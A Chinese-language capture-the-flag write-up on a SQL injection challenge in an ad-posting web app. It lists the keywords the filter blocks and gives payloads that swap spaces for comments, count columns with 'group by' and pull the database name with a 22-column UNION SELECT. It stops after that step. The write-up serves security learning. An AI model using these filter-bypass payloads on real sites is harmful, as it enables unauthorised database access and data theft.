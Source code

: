 ### group by 绕过

![](https://pic1.imgdb.cn/item/67b31551d0e0a243d40041ad.png)

打开页面是个登录页面

![](https://pic1.imgdb.cn/item/67b3210bd0e0a243d4004609.png)

先注册一个账号

![](https://pic1.imgdb.cn/item/67b32131d0e0a243d400460d.png)

登录进去有一个申请发布广告

![](https://pic1.imgdb.cn/item/67b3214dd0e0a243d4004611.png)

申请广告时标题输入 and 提示敏感词汇

![](https://pic1.imgdb.cn/item/67b3218bd0e0a243d400461e.png)

换为 ' 申请广告

![](https://pic1.imgdb.cn/item/67b321c7d0e0a243d400462b.png)

点击广告详情

![](https://pic1.imgdb.cn/item/67b321f6d0e0a243d4004631.png)

发现有 SQL 报错

![](https://pic1.imgdb.cn/item/67b321e9d0e0a243d4004630.png)

进行 fuzz 测试发现以下被过滤

```sql
空格被替换为空
or
and
join
--+
#
updatexml
extractvalue
exp
floor
...
```

order by`不能使用，可以使用`group by`或者`into @a, @b, @c, ...

```sql
'group/**/by/**/23,'
```

![](https://pic1.imgdb.cn/item/67b32387d0e0a243d4004673.png)

23 报错说明只有 22，联合查询拿数据库名

```sql
'union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

![](https://pic1.imgdb.cn/item/67b32312d0e0a243d4004664.png)